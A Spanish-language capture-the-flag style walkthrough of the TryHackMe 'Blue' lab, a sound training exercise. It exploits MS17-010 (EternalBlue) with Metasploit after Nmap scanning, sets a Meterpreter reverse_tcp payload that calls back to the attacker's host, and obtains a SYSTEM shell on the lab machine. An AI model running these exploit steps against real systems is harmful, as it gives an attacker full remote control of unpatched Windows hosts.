### **Tutorial: Explotación de la máquina Blue – TryHackMe**

## 1. Conexión a la VPN de TryHackMe

Para poder acceder a las máquinas del laboratorio es necesario conectarse primero a la VPN de TryHackMe. Esto crea un túnel cifrado entre la máquina Kali y la red privada del laboratorio.

### 1.1 Conexión mediante OpenVPN

Desde la terminal de Kali ejecutamos el siguiente comando utilizando el archivo `.ovpn` descargado desde la plataforma:

```bash
sudo openvpn /home/nerea/Descargas/eu-central-1-nereacandonramos-regular.ovpn
```
Si la conexión se establece correctamente, en la terminal aparecerá el mensaje:

```bash
Initialization Sequence Completed
```
Este mensaje indica que el túnel VPN se ha creado correctamente.



### 1.2 Verificación de la conexión

Una vez establecida la VPN, se debe comprobar que se ha creado la interfaz de red correspondiente.

Para ello ejecutamos:
```bash
ip a
```
La presencia de la interfaz tun0 confirma que la máquina Kali está conectada a la red de TryHackMe y puede comunicarse con las máquinas del laboratorio.

```bash
tun0: 192.168.177.226
```


## 2. Identificación de la máquina objetivo

Una vez establecida la conexión a la VPN, la plataforma TryHackMe proporciona la dirección IP de la máquina vulnerable que se utilizará en el laboratorio.

En este caso la IP asignada es:
```bash
10.113.184.245
```

Esta dirección pertenece a la red privada del laboratorio y solo es accesible a través de la VPN previamente establecida.

---

## 3. Escaneo de puertos con Nmap

El siguiente paso consiste en identificar los servicios expuestos en la máquina objetivo.  
Para ello se utiliza la herramienta **Nmap**, que permite descubrir puertos abiertos y servicios activos en un sistema.

Se ejecuta el siguiente comando:

```bash
nmap -sC -sV 10.113.184.245
```


## 4. Verificación de la vulnerabilidad MS17-010

Para confirmar si la máquina es vulnerable se utiliza un script de Nmap específico para esta vulnerabilidad.

```bash
nmap --script smb-vuln-ms17-010 -p445 10.113.184.245
```


Este script comprueba si el servicio SMB es vulnerable a MS17-010.

Si el resultado indica VULNERABLE, significa que el sistema puede ser explotado 
mediante el exploit conocido como EternalBlue.

## 5. Explotación con Metasploit

Primero iniciamos Metasploit:

```bash
msfconsole
```


Buscamos el exploit correspondiente:

```bash
search ms17-010
```


Seleccionamos el módulo:

```bash
use exploit/windows/smb/ms17_010_eternalblue
```


Se establece el payload con el siguiente comando:

```bash
set payload windows/x64/meterpreter/reverse_tcp
```


Configuramos la IP de la máquina objetivo:

```bash
set RHOSTS 10.113.184.245
```
Configuramos nuestra IP local para recibir la conexión inversa:

```bash
set LHOST 192.168.177.226
```


Mostramos las opciones configuradas:
```bash
show options
```



## 6. Ejecución del exploit

Finalmente ejecutamos el exploit:
```bash
run
```
Si la explotación es exitosa se abrirá una sesión remota en el sistema comprometido.

## 7. Acceso al sistema comprometido

Una vez establecida la conexión se comprueba el usuario con el que se está 
ejecutando la sesión:

```bash
getuid
```
El resultado es:

```bash
NT AUTHORITY\SYSTEM
```


Esto indica que tenemos privilegios administrativos completos sobre el sistema.
En Windows, la cuenta SYSTEM posee incluso más privilegios que un administrador tradicional.

## 8.Exploración del sistema comprometido

A partir de este punto se puede explorar el sistema utilizando 
comandos de Meterpreter o una shell de Windows.

Para abrir una shell del sistema:

```bash
shell
```
Esto mostrará un prompt similar a:

```bash
C:\Windows\system32>
```

Ver el usuario actual:

```bash
whoami
```
Listar archivos del directorio actual:

```bash
dir
```
Navegar entre directorios:
```bash
cd
```


## 8.3 Gestión de sesiones en Metasploit

Cuando se ejecuta un exploit, Metasploit puede abrir una o varias sesiones Meterpreter.
Estas sesiones permiten interactuar con el sistema comprometido.

Para ver las sesiones activas se utiliza:

```bash
sessions
```

Para interactuar con una sesión concreta se utiliza:
```bash
sessions -i 1
```


Para guardar la sesion se le da a Ctrl + Z, le damos a y para guardar:



Esto permite volver a controlar la sesión Meterpreter activa.
Si se desea cerrar una sesión se puede usar:

```bash
sessions -k 1
```

## 9.Exploración de los usuarios del sistema
Para ver los usuarios existentes en el sistema accedemos al directorio de usuarios:
```bash
cd C:\Users
ls
```


A partir de aquí es posible explorar los directorios de cada usuario 
para analizar el sistema comprometido.